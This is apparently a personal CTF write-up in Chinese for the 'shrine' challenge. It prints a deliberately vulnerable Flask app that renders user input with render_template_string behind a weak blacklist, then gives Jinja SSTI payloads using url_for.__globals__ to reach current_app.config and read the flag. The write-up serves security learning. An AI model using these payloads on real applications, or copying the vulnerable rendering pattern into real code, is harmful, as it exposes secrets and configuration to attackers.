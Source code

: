 ![[Pasted image 20221129143404.png]]

---
首页长这样
```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
	return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

	return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
	app.run(debug=True)
```
显然是个`flask`的`SSTI`

```php
/shrine/{{1+1}}
```
> 2

`flag`保存在app.config里，所以只要访问`/shrine/{{config}}`就可以了啊哈哈（
```python
blacklist = ['config', 'self']
return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```
并不行，这俩被替换成`None`了

网上给出的解决方案是利用`flask`的`url_for`函数以及`python`的`__globals__`魔法，获取`url_for`所在环境中的全局变量
```python
/shrine/{{url_for.__globals__}}
```
![[Pasted image 20221129160253.png]]
```python
/shrine/{{url_for.__globals__['current_app'].config}}
```
![[Pasted image 20221129160733.png]]

#Web #python #flask #SSTI #urlfor #globals #绕过 